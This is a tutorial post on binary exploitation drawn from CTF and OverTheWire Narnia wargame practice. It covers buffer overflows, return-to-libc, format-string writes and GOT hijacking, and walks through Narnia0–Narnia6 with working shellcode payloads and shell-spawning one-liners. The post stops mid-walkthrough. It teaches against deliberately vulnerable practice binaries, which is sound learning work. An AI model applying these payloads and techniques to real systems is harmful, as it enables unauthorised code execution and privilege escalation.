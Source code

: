 Learning from the CTF : Binary Exploitation
===========================================

This post (Work in Progress) lists the tips and tricks while doing Binary Exploitation challenges during various CTF's and Over The Wire Wargame.

**Thanks to superkojiman, barrebas, et0x who helped me learning the concepts.**

Basics
*******

Let's start with some basic concepts and then we would see some examples which would help to clear the concepts.

* Big-endian systems store the most significant byte of a word in the smallest address and the least significant byte is stored in the largest address. Little-endian systems, in contrast, store the least significant byte in the smallest address. {% img left /images/big-endian.png 250 250 %} {% img right /images/little-endian.png 250 250 %}

* When you get a binary for exploitation, we need to find whether it is 32-bit or 64-bit ELF, which platform it is running, whether any buffer overflow prevention techniques has been used, what is EIP offset.

 * Executable binary is running on whether x86 or x86-64.

  ::

    uname -a

 * Whether the binary is compiled for 32 bit or 64 bit.

  ::

    file binary_file

 * Multiple Buffer overflow prevention techniques such as RELRO, NoExecute (NX), Stack Canaries, Address Space Layout Randomization (ASLR) and Position Independent Executables (PIE).

  ::

    Address space Layout Randomization     : Kernel
    Executable Stack Protection            : Compiler
    Stack smashing protection              : Compiler
    Position Independent Executables       : Compiler
    Fortify Source                         : Compiler
    Stack Protector                        : Compiler

 * Which buffer overflow prevention techniques are used can be found by running Checksec Script. This script is present in gdb-peda.

 * Whether the stack of binary is executable is not can be found by readelf tool. If Program header GNU\_STACK has RWE flag, if it has E flag, it's executable.

  ::

    narnia8@melinda:~$ readelf -l /narnia/narnia8 | grep GNU_STACK
    GNU_STACK      0x000000 0x00000000 0x00000000 0x00000 0x00000 RWE 0x10

  In order to make the stack executable, the program needs to be compiled with -z execstack option and to disable stack smashing option -fno-stack-protector should be used.

  ::

    gcc -ggdb -m32 -fno-stack-protector -z execstack -o buffer1 buffer1.c


 * Address Space Layout Randomization (ASLR) controlled by /proc/sys/kernel/randomize\_va\_space.

  ::

    Three Values:
    0  : Disable ASLR. This setting is applied if the kernel is booted with the norandmaps boot parameter.
    1  : Randomize the positions of the stack, virtual dynamic shared object (VDSO) page, and shared memory regions. The base address of the data segment is located immediately after the end of the executable code segment.
    2  : Randomize the positions of the stack, VDSO page, shared memory regions, and the data segment. This is the default setting.

  You can change the setting temporarily by writing a new value to /proc/sys/kernel/randomize\_va\_space, for example:

  ::

    echo value > /proc/sys/kernel/randomize_va_space

  To change the value permanently, add the setting to /etc/sysctl.conf, for example:

  ::

    kernel.randomize_va_space = value
    and run the sysctl -p command.

  If you change the value of randomize_va_space, you should test your application stack to ensure that it is compatible with the new setting. If necessary, you can disable ASLR for a specific program and its child processes by using the following command:

  ::

    % setarch `uname -m` -R program [args ...]


 * To know the EIP offset, you can use cyclic patterns. Use pattern_create.rb to create a random pattern which can be used to find the offset and pattern\_offset.rb to find the exact offset.

  ::

    /usr/share/metasploit-framework/tools/pattern_create.rb 200
    Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag

    /usr/share/metasploit-framework/tools/pattern_offset.rb 0x37654136
    [*] Exact match at offset 140


 * Sometimes, you need to know the address of the variable, inorder to write arbitary value in to it. 
   
  :: 

    run gdb <program> p &<variablename>

Buffer overflow
****************

* Either you can put the shellcode on the buffer and then redirect the EIP to NOP Sled followed by the shellcode (provided the shellcode used is correct and the stack is executable).

* However, if the stack is not executable or the shellcode is not working (happens sometimes), then we can either,

 * Export a environment variable with shellcode, find the address of env variable in the stack and then set the return address to starting of the shellcode and get a shell

 * Use return2libc which is a type of ROP: find the address of system function, find the address of "/bin/sh" in the stack and execute it like system("/bin/sh"). It is in the format of 

  ::

    <ADDRofSYSTEM> <4ArbitraryBytes for Return Address> <argument for system[/bin/sh]>

  4Arbitrary Bytes for Return address could be a JUNK address or "\\xCC\\xCC\\xCC\\xCC" or address of exit function.

  If set to

  * \\xCC\\xCC\\xCC\\xCC so after system executes, it tries to return to 0xcccccccc. \\xcc is good just to check if you're actually jumping to your shellcode, but once you've verified that it works, then you should remove it.
  * If a JUNK address is put, the binary will have already executed the shellcode but it will segfault.
  * If the proper address of exit() is used, binary will exit cleanly.

  It's better to use /bin/sh instead of /bin/bash since bash drops privs. If /bin/bash is used, it will launch /bin/bash but you'll find that you haven't elevated your privileges and this can get confusing. so either find another string that points to /bin/sh or set your own env variable like DASH=/bin/sh and reference that. Good paper to review is Bypassing non-executable-stack during Exploitation (return-to-libc).


 * Sometimes you need to put a cat to keep the shell alive
   ::

     (cat input; cat) | ./binary input is the payload you are sending.

* Sometimes we need a shellcode to write a string or for getting a actual shell. A good reference can be found @Introduction to Writing Shellcode. Information about various system call integar value need to be present in EAX register is here Linux System Call Table.

 Let's see a small example where we move an address to eax register and jump to it. Address which we are moving to eax would contain our shellcode.

 ::

   ;test.asm
   [SECTION .text]
   global _start
   _start:
           mov eax, 0xffffd8bc
         jmp eax

 Just good to know: global directive is NASM specific. It is for exporting symbols in your code to where it points in the object code generated. Here you mark \_start symbol global so its name is added in the object code (a.o). The linker (ld) can read that symbol in the object code and its value so it knows where to mark as an entry point in the output executable. When you run the executable it starts at where marked as \_start in the code.

 If a global directive missing for a symbol that symbol will not be placed in the object code's export table so linker has no way of knowing about the symbol. We can compile the asm file by 
 ::

   nasm -f elf test.asm

 link it

 ::

   ld -o test test.o

 If you get the below error
 ::

   ld: i386 architecture of input file `test.o' is incompatible with i386:x86-64 output

 either 

 Use 64 bits instead of 32 for your loader and compile it with the following command:
 ::

   nasm -f elf64 loader.asm -o loader.o

 or 

 If want compile the file as 32 bits composition, you can use:

 ::

   ld -m elf_i386 -s -o file.o file

 To see the byte code 
 ::

   objdump -d <file>


* What we mostly do when exploiting a buffer overflow (when placing the shellcode on stack) is we place our shellcode before EIP, we should also check if we can put our shellcode after EIP. This is particularly useful when some kind of check for shellcode is present in address before EIP. Example: Suppose our EIP is present at offset 80. We would usually do

 ::

   python -c 'print "\x90"*50 + "30 Bytes of ShellCode" + "4 Bytes return address to NOP or shellcode in left"'

 However, if somekind of check for alphanumeric characters is present for first 80 bytes you won't be able to put your shellcode in those 80 bytes. At that point of time you should check if you can overflow post EIP and redirect. For example

 ::

    python -c 'print "A"*80 + "4 Bytes return address to NOP or shellcode in right" + "\x90"*50 + "30 Bytes of ShellCode"'


Format String Vulnerability
***************************

* Definition: If an attacker is able to provide the format string to an ANSI C format function in part or as a whole, a format string vulnerability is present. By doing so, the behaviour of the format function is changed, and the attacker may get control over the target application. A format string is an ASCIIZ string that contains text and format parameters. Example:

 ::

   printf ("The magic number is: %d\n", 1911);

* The behaviour of the format function is controlled by the format string. The function retrieves the parameters requested by the format string from the stack.

 ::

   printf ("Number %d has no address, number %d has: %08x\n", i, a, &a);

 From within the printf function the stack looks like:
 ::

   stack top 
   . . . 
   <&a> 
   <a> 
   <i>
    A 
   . . .
   stack bottom

* Crashing the Program: By utilizing format strings we can easily trigger some invalid pointer access by just supplying a format string like: 

 ::

   printf ("%s%s%s%s%s%s%s%s%s%s%s%s");

 Because ‘%s’ displays memory from an address that is supplied on the stack, where a lot of other data is stored, too, our chances are high to read from an illegal address, which is not mapped.


* Viewing the stack: how some parts of the stack memory by using a format string like this:

 ::

   printf ("%08x.%08x.%08x.%08x.%08x\n");

 This works, because we instruct the printf-function to retrieve five parameters from the stack and display them as 8-digit padded hexadecimal numbers. So a possible output may look like:

 ::

   40012980.080628c4.bffff7a4.00000005.08059c04

 This is a partial dump of the stack memory, starting from the current bottom upward to the top of the stack — assuming the stack grows towards the low addresses.


* Viewing Memory at any location: We can look at memory locations different from the stack memory by providing an address to the format string.

 Our format string is usually located on the stack itself, so we already have near to full control over the space, where the format string lies. The format function internally maintains a pointer to the stack location of the current format parameter. If we would be able to get this pointer pointing into a memory space we can control, we can supply an address to the ‘%s’ parameter. To modify the stack pointer we can simply use dummy parameters that will ‘dig’ up the stack by printing junk:

 ::

   printf ("AAA0AAA1_%08x.%08x.%08x.%08x.%08x");

 The ‘%08x’ parameters increase the internal stack pointer of the format function towards the top of the stack. After more or less of this increasing parameters the stack pointer points into our memory: the format string itself. The format function always maintains the lowest stack frame, so if our buffer lies on the stack at all, it lies above the current stack pointer for sure. If we choose the number of ‘%08x’ parameters correctly, we could just display memory from an arbitrary address, by appending ‘%s’ to our string. In our case the address is illegal and would be ‘AAA0’. Lets replace it with a real one. Example:

 ::

   address = 0x08480110
   address (encoded as 32 bit le string): "\x10\x01\x48\x08" 
   printf ("\x10\x01\x48\x08_%08x.%08x.%08x.%08x.%08x|%s|");

 Will dump memory from 0x08480110 until a NUL byte is reached. If we cannot reach the exact format string boundary by using 4-Byte pops (‘%08x’), we have to pad the format string, by prepending one, two or three junk characters. 3 This is analog to the alignment in buffer overflow exploits.


* Overwriting of Arbitrary Memory: There is the ‘%n’ parameter, which writes the number of bytes already printed, into a variable of our choice. The address of the variable is given to the format function by placing an integer pointer as parameter onto the stack. But if we supply a correct mapped and writeable address this works and we overwrite four bytes (sizeof (int)) at the address: 

 ::

   "\xc0\xc8\xff\xbf_%08x.%08x.%08x.%08x.%08x.%n"

 The format string above will overwrite four bytes at 0xbfffc8c0 with a small integer number. We have reached one of our goals: we can write to arbitrary addresses. By using a dummy parameter ‘%nu’ we are able to control the counter written by ‘%n’, at least a bit.

* Direct Parameter Access: The direct parameter access is controlled by the ‘$' qualifier

 ::
 
   printf ("%6`\ d:raw-latex:`\n`", 6, 5, 4,3, 2, 1);

 Prints ‘1’, because the ‘6$’ explicitly addresses the 6th parameter on the stack.

* The above text is taken from and a good paper to read for format string is `Exploiting Format String Vulnerabilities`_

 .. _Exploiting Format String Vulnerabilities: http://www.cis.syr.edu/~wedu/seed/Labs/Vulnerability/Format_String/files/formatstring-1.2.pdf

* We can write two bytes by %hn and one byte by %hhn.
* How to write four bytes? Suppose we need to write 0x8048706 to the address 0xffffd64c.

 ::

   HOB:0x0804 LOB:0x8706

   If HOB < LOB

   [addr+2][addr] = \x4e\xd\xff\xff\x4c\xd\xff\xff
   %.[HOB - 8]x = 0x804 - 8 = 7FC (2044) = %.2044x
   %[offset]$hn = %6\$hn 
   %.[LOB - HOB]x = 0x8706 - 0x804 = 7F02 (32514) = %.32514x 
   %[offset+1]`\ hn = %7$hn

   python -c 'print "\x4e\xd6\xff\xff\x4c\xd6\xff\xff" +"%.2044x%6\$hn %.32514x%7\$hn"'

* Hijack the Global Offset Table with pointers:

 * Whatis: The Global Offset Table redirects position independent address calculations to an absolute location and is located in the .got section of an ELF executable or shared object. It stores the final (absolute) location of a function calls symbol, used in dynamically linked code. When a program requests to use printf() for instance, after the rtld locates the symbol, the location is then relocated in the GOT and allows for the executable via the Procedure Linkage Table, to directly access the symbols location.

 * when you disassemble main and printf statement is present, you will get like        

  ::

    0x080484b9 <+60>: call 0x8048330 printf@plt <----PLT

  if you further disassemble printf

  ::
   
    gdb-peda$ pdisass printf 
    Dump of assembler code for function printf@plt:
        0x08048330 <+0>: jmp DWORD PTR ds:0x8049788 <----GOT Address 
        0x08048336 <+6>: push 0x0 
        0x0804833b <+11>: jmp 0x8048320 End of assembler dump.

  Further disassembling the address 0x8049788
  
  ::

   gdb-peda$ pdisass 0x8049788
   Dump of assembler code from 0x8049788 to 0x80497a8:
     0x08049788 <printf@got.plt+0>:   add    DWORD PTR ss:[eax+ecx*1],0x46
     0x0804978d <fgets@got.plt+1>:    add    DWORD PTR [eax+ecx*1],0x56
     0x08049791 <puts@got.plt+1>: add    DWORD PTR [eax+ecx*1],0x66
     0x08049795 <__gmon_start__@got.plt+1>:   add    DWORD PTR [eax+ecx*1],0x76
     0x08049799 <__libc_start_main@got.plt+1>:    add    DWORD PTR [eax+ecx*1],0x0
     0x0804979d <data_start+1>:   add    BYTE PTR [eax],al
     0x0804979f <data_start+3>:   add    BYTE PTR [eax],al
     0x080497a1 <__dso_handle+1>: add    BYTE PTR [eax],al
     0x080497a3 <__dso_handle+3>: add    BYTE PTR [eax],al
     0x080497a5 <stdin@@GLIBC_2.0+1>: add    BYTE PTR [eax],al
     0x080497a7 <stdin@@GLIBC_2.0+3>: add    BYTE PTR [eax],al
   End of assembler dump. 


  Objdump reflects the same (notice the +1) GOT address:

  ::
    
    objdump --dynamic-reloc ./behemoth3 

    ./behemoth3:     file format elf32-i386

    DYNAMIC RELOCATION RECORDS
    OFFSET   TYPE              VALUE 
    08049778 R_386_GLOB_DAT    __gmon_start__
    080497a4 R_386_COPY        stdin
    08049788 R_386_JUMP_SLOT   printf
    0804978c R_386_JUMP_SLOT   fgets
    08049790 R_386_JUMP_SLOT   puts
    08049794 R_386_JUMP_SLOT   __gmon_start__
    08049798 R_386_JUMP_SLOT   __libc_start_main


  Quick diagram what it looks like:

  So a quick diagram of what happens looks kind'a like this:

  ::

   [printf()] <--------------------------------
      |                                       |
      --------------> [PLT]--->[d_r_resolve]--|
                        |           |         |
                        -------------------->[GOT]<--
                                    |               |
                                     ------->[libc]--


 * A good paper to read about and from where the definition and diagram is taken is How to Hijack the Global Offset Table with pointers

Buffer Overflow Examples
************************

* Let's see a simple example of binary exploitation Narnia0 where we have to write a written value.

 .. code:: c

   #include <stdio.h>
   #include <stdlib.h>

   int main(){
       long val=0x41414141;
       char buf[20];

       printf("Correct val's value from 0x41414141 -> 0xdeadbeef!\n");
       printf("Here is your chance: ");
       scanf("%24s",&buf);

       printf("buf: %s\n",buf);
       printf("val: 0x%08x\n",val);

       if(val==0xdeadbeef)
           system("/bin/sh");
       else {
           printf("WAY OFF!!!!\n");
           exit(1);
       }

       return 0;
   }

 In this example, value of variable val can be overwritten by overflowing buf. Another small observation is scanf function scans 24 characters. If you directly write 20 "A" and the address it won't work as the val doesn't matches. So, we have to use python print command. If we use 

 .. code:: python

   python -c 'print "A"*20 + "\xef\xbe\xad\xde"' | ./narnia0 

 you will see that the value would match but the shell is exited. To keep the shell active, we need to use cat as shown below:

 ::

   (python -c 'print "A"*20 + "\xef\xbe\xad\xde"';cat) | ./narnia0 


* In another example below Narnia1

 ::

   #include <stdio.h>

   int main(){
       int (*ret)();

       if(getenv("EGG")==NULL){    
           printf("Give me something to execute at the env-variable EGG\n");
           exit(1);
       }

       printf("Trying to execute EGG!\n");
       ret = getenv("EGG");
       ret();

       return 0;
   }

 We need to set a environment variable EGG with an shellcode. Previously, I tried with

 ::

   export EGG="\bin\sh"
   and 
   export EGG="\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80"

 Shellcode were taken from the Shellstorm website. However, both failed with Segmentation fault. superkojiman, barrebas helped me with and told that if I write

 ::

   export EGG=`python -c 'print "\xCC"'`

 It should sigtrap. "\xCC" acts as a software breakpoint, basically an INT3, It tells you whether your shellcode is stored properly & executed, if the program receives SIGTRAP, you know you're good to go, and it's a good way to make sure you've properly redirected execution to your shellcode. You can further put "\xCC" anywhere in the shellcode, if it crashes before "\xCC", you know for sure that your shellcode has bad characters. They suggested to export the EGG variable as

 ::

   export EGG=`python -c 'print "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80"'`

 and it worked like a charm.


* In another example Narnia2

 ::

   #include <stdio.h>
   #include <string.h>
   #include <stdlib.h>

   int main(int argc, char * argv[]){
       char buf[128];

       if(argc == 1){
           printf("Usage: %s argument\n", argv[0]);
           exit(1);
       }
       strcpy(buf,argv[1]);
       printf("%s", buf);

       return 0;
   }

 It's to easy that buffer overflow vulnerability exists because of strcpy. Let's see what is the offset for this.

 ::

   ulimit -c unlimited
   ./narnia2 `/usr/share/metasploit-framework/tools/pattern_create.rb 200`
   Segmentation fault (core dumped)

   gdb -q -c core ./narnia2
   #0  0x37654136 in ?? ()

   /usr/share/metasploit-framework/tools/pattern_offset.rb 0x37654136
   [*] Exact match at offset 140
   narnia2@melinda:~$ gdb -q /narnia/narnia2
   (gdb) disassemble main 
   Dump of assembler code for function main:
   **Snip**
      0x080484a0 <+67>:    mov    %eax,(%esp)
      0x080484a3 <+70>:    call   0x8048320 <strcpy@plt>
   **Snip**
   End of assembler dump.
   (gdb) br *main+70
   Breakpoint 1 at 0x80484a3
   (gdb) run `python -c 'print "A"*140 + "BBBB"'`
   Starting program: /games/narnia/narnia2 `python -c 'print "A"*140 + "BBBB"'`

   Breakpoint 1, 0x080484a3 in main ()
   (gdb) n
   0x42424242 in ?? ()

 Let's see the stack after the strcpy, which would tell us the probable address we want to redirect execution.

 ::

   (gdb) x/80xw $esp+400
   0xffffd7e0: 0x0000000f  0xffffd80b  0x00000000  0x00000000
   0xffffd7f0: 0x00000000  0x00000000  0x1d000000  0xa9c79d1b
   0xffffd800: 0xe1a67367  0xc19fc850  0x6996cde4  0x00363836
   0xffffd810: 0x2f000000  0x656d6167  0x616e2f73  0x61696e72
   0xffffd820: 0x72616e2f  0x3261696e  0x41414100  0x41414141
   0xffffd830: 0x41414141  0x41414141  0x41414141  0x41414141
   0xffffd840: 0x41414141  0x41414141  0x41414141  0x41414141
   0xffffd850: 0x41414141  0x41414141  0x41414141  0x41414141
   0xffffd860: 0x41414141  0x41414141  0x41414141  0x41414141
   0xffffd870: 0x41414141  0x41414141  0x41414141  0x41414141
   0xffffd880: 0x41414141  0x41414141  0x41414141  0x41414141
   0xffffd890: 0x41414141  0x41414141  0x41414141  0x41414141
   0xffffd8a0: 0x41414141  0x41414141  0x41414141  0x41414141
   0xffffd8b0: 0x41414141  0x42424241  0x44580042  0x45535f47
   0xffffd8c0: 0x4f495353  0x44495f4e  0x3939383d  0x53003733

 Let pick a shellcode from shellstorm for a Linux x86 execuve /bin/sh and calculate the number of NOPs

 ::

   narnia2@melinda:~$ python -c 'print len("\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80")'
   23
   narnia2@melinda:~$ bc    
   140-23
   117
   narnia2@melinda:~$ /narnia/narnia2 `python -c 'print "\x90"*117 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80" + "\x50\xd8\xff\xff"'`
   $ cat /etc/narnia_pass/narnia3
   **********
   $ 


* In another example Narnia3

 .. code:: c

   #include <stdio.h>
   #include <sys/types.h>
   #include <sys/stat.h>
   #include <fcntl.h>
   #include <unistd.h>
   #include <stdlib.h>
   #include <string.h> 

   int main(int argc, char **argv){
     
           int  ifd,  ofd;
           char ofile[16] = "/dev/null";
           char ifile[32];
           char buf[32];
     
           if(argc != 2){
                   printf("usage, %s file, will send contents of file 2 /dev/null\n",argv[0]);
                   exit(-1);
           }
     
           /* open files */
           strcpy(ifile, argv[1]);
           if((ofd = open(ofile,O_RDWR)) < 0 ){
                   printf("error opening %s\n", ofile);
                   exit(-1);
           }
           if((ifd = open(ifile, O_RDONLY)) < 0 ){
                   printf("error opening %s\n", ifile);
                   exit(-1);
           }
    
           /* copy from file1 to file2 */
           read(ifd, buf, sizeof(buf)-1);
           write(ofd,buf, sizeof(buf)-1);
           printf("copied contents of %s to a safer place... (%s)\n",ifile,ofile);
     
           /* close 'em */
           close(ifd);
           close(ofd);
    
           exit(1);
   }

 Superkojiman notes explain this best, copied here with permission, thanks superkojiman :)

 ::

   narnia3@melissa:/narnia$ ./narnia3 /etc/motd
   copied contents of /etc/motd to a safer place... (/dev/null)

 We can use this program to read the contents of /etc/narnia\_pass/narnia4, but the output is written to /dev/null. We control the input file and the output file is set as /dev/null. However, because of the way the stack is laid out, we can write past the ifile buffer and overwrite the value of ofile. This lets us replace /dev/null with another file of our choosing. Here's what the stack looks like:

 ::

   +---------+
   |  ret    |
   |  sfp    |
   |  ofd    |
   |  ifd    |
   |  ofile  |
   |  ifile  |
   |  buf    |
   +---------+ <- esp

 ifile and ofile are 32-byte arrays. We can compile the program with -ggdb and examine it in gdb 

 ::

   # gcc -ggdb -m32 -fno-stack-protector -Wl,-z,norelro narnia3.c -o narnia3
   # gdb -q narnia3

 If we disas main, we can see that strcpy is called at \*main+100:

 ::

      0x08048551 <+93>:    lea    0x38(%esp),%eax
      0x08048555 <+97>:    mov    %eax,(%esp)
      0x08048558 <+100>:   call   0x8048400 <strcpy@plt>
      0x0804855d <+105>:   movl   $0x2,0x4(%esp)
      0x08048565 <+113>:   lea    0x58(%esp),%eax
      0x08048569 <+117>:   mov    %eax,(%esp)

 We set a breakpoint there and run the program with the following arguments:

 ::

   (gdb) r `python -c 'print "A"*32 + "/tmp/hack"'`
   Starting program: /root/wargames/narnia/3/narnia3 `python -c 'print "A"*32 + "/tmp/hack"'`

   Breakpoint 1, 0x08048558 in main (argc=2, argv=0xbffff954) at narnia3.c:37
   37          strcpy(ifile, argv[1]);


 At the first breakpoint, we examine the local variables

 ::

   (gdb) i locals
   ifd = 134514299
   ofd = -1208180748
   ofile = "/dev/null\000\000\000\000\000\000"
   ifile = "x\370\377\277\234\203\004\b\200\020\377\267\214\230\004\b\250\370\377\277\211\206\004\b$\243\374\267\364\237", <incomplete sequence \374\267>
   buf = "\370\370\377\267\364\237\374\267\371\234\367\267\245B\352\267h\370\377\277չ\350\267\364\237\374\267\214\230\004\b"

 ofile is set to /dev/null as expected. We'll step to the next instruction and check again.
 ::

   (gdb) s
   38          if((ofd = open(ofile,O_RDWR)) < 0 ){
   (gdb) i locals
   ifd = 134514299
   ofd = -1208180748
   ofile = "/tmp/hack\000\000\000\000\000\000"
   ifile = 'A' <repeats 32 times>
   buf = "\370\370\377\267\364\237\374\267\371\234\367\267\245B\352\267h\370\377\277չ\350\267\364\237\374\267\214\230\004\b"

  As expected, ofile has been overwritten to /tmp/hack. However ifile is now AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA/tmp/hack so in order to read /etc/narnia_pass/narnia4, we need to create a directory AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA/tmp and symlink /etc/narnia_pass/narnia4 to AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA/tmp/hack

 ::

   narnia3@melissa:/tmp/skojiman3$ mkdir -p AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA/tmp
   narnia3@melissa:/tmp/skojiman3$ ln -s /etc/narnia_pass/narnia4 AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA/tmp/hack

 Next we need to create the output file /tmp/hack that ofile points to
 
 ::
  
   narnia3@melissa:/tmp/skojiman3$ touch /tmp/hack
   narnia3@melissa:/tmp/skojiman3$ chmod 666 /tmp/hack
   narnia3@melissa:/tmp/skojiman3$ ls -l /tmp/hack
   -rw-rw-rw- 1 narnia3 narnia3 0 2012-11-24 22:58 /tmp/hack

 Finally, execute /narnia/narnia3 as follows:

 ::

   narnia3@melissa:/tmp/skojiman3$ /narnia/narnia3 `python -c 'print "A"*32 + "/tmp/hack"'`
   copied contents of AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA/tmp/hack to a safer place... (/tmp/hack)
   narnia3@melissa:/tmp/skojiman3$ cat /tmp/hack
   thaenohtai
   ��*������e���@�narnia3@melissa:/tmp/skojiman3$


* Let's see another example Narnia6.

 .. code:: c

    #include <stdio.h>
    #include <stdlib.h>
    #include <string.h>

    extern char **environ;

    // tired of fixing values...
    // - morla
    unsigned long get_sp(void) {
           __asm__("movl %esp,%eax\n\t"
                   "and $0xff000000, %eax"
                   );
    }

    int main(int argc, char *argv[]){
        char b1[8], b2[8];
        int  (*fp)(char *)=(int(*)(char *))&puts, i;

        if(argc!=3){ printf("%s b1 b2\n", argv[0]); exit(-1); }

        /* clear environ */
        for(i=0; environ[i] != NULL; i++)
            memset(environ[i], '\0', strlen(environ[i]));
        /* clear argz    */
        for(i=3; argv[i] != NULL; i++)
            memset(argv[i], '\0', strlen(argv[i]));

        strcpy(b1,argv[1]);
        strcpy(b2,argv[2]);
        //if(((unsigned long)fp & 0xff000000) == 0xff000000)
        if(((unsigned long)fp & 0xff000000) == get_sp())
            exit(-1);
        fp(b1);

        exit(1);
    }

 Stack is not executable for this binary. This binary is an example of “return-to-libc” attack is a computer security attack usually starting with a buffer overflow in which a subroutine return address on a call stack is replaced by an address of a subroutine that is already present in the process’ executable memory, rendering the NX bit feature useless (if present) and ridding the attacker of the need to inject their own code.

 ::

   gdb -q narnia6
   Reading symbols from /home/bitvijays/narnia6...(no debugging symbols found)...done.
   gdb-peda$ checksec 
   CANARY    : disabled
   FORTIFY   : disabled
   NX        : ENABLED
   PIE       : disabled
   RELRO     : disabled
   gdb-peda$ 

 Let's compile the source on the local and check what happens:

 ::

   gcc -m32 -ggdb -fno-stack-protector -Wall narnia6.c -o narnia61

 If you see carefully, we passed A\ *8 + BBBB + " " + "C"*\ 8 + DDDD, which resulted in

 ::

   gdb -q ./narnia61
   gdb-peda$ pdisass main
   Dump of assembler code for function main:
      0x080486d2 <+330>:   call   0x8048450 <exit@plt>
      0x080486d7 <+335>:   lea    eax,[esp+0x20]
      0x080486db <+339>:   mov    DWORD PTR [esp],eax
      0x080486de <+342>:   mov    eax,DWORD PTR [esp+0x28]
      0x080486e2 <+346>:   call   eax
      0x080486e4 <+348>:   mov    DWORD PTR [esp],0x1
      0x080486eb <+355>:   call   0x8048450 <exit@plt>
   End of assembler dump.
   gdb-peda$ br *main+346
   Breakpoint 1 at 0x80486e2: file narnia6.c, line 48.
   gdb-peda$ run `python -c 'print "A"*8 + "BBBB" + " " + "C"*8 + "DDDD"'`
   [-------------------------------------code-------------------------------------]
